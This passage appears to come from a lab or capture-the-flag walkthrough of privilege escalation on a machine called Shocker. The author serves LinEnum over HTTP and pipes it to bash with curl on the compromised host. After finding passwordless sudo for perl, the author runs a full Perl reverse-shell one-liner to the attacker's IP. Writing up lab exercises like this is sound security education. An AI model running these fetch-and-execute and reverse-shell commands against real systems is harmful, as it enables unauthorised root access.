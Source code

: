 ```
git clone https://github.com/rebootuser/LinEnum.git
```

Or you can run this to get linpeas:

```
git clone https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite
```

After you have cloned one of these tools, simply navigate to the directory where the file is (for me it is `/opt/privilege-escalation-awesome-scripts-suite/linPEAS`) and host a simple HTTP server using Python.

```
python -m SimpleHTTPServer 80
```

Now the awesome thing about just having a simple HTTP server is that on the compromised host we have a shell on, we can use `curl` to pipe the `LinEnum.sh` file to `bash` and it just runs on the compromised host without having to download the file onto the host which is amazing. On the compromised host I ran the following command:

```
curl http://10.10.14.36/LinEnum.sh | bash
```

Scrolling down the output of `LinEnum` I see something interesting:

```
[+] We can sudo without supplying a password!
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl


[+] Possible sudo pwnage!
/usr/bin/perl
```

We can run `perl` under the path `/usr/bin/perl` as `sudo` with no password. This should be an easy pwn. Using [PayloadsAllTheThings' Reverse Shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#perl) there is a section on how to get a reverse shell using `perl`. All we need to do is change the IP address on the command, set up a Netcat listener on port 4242 on our host, and run the perl command on the compromised host and we should get root!

```
nc -lvnp 4242
```

After setting up a Netcat listener on our host, I ran the following command on the compromised host:

```
sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.36";$p=4242;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
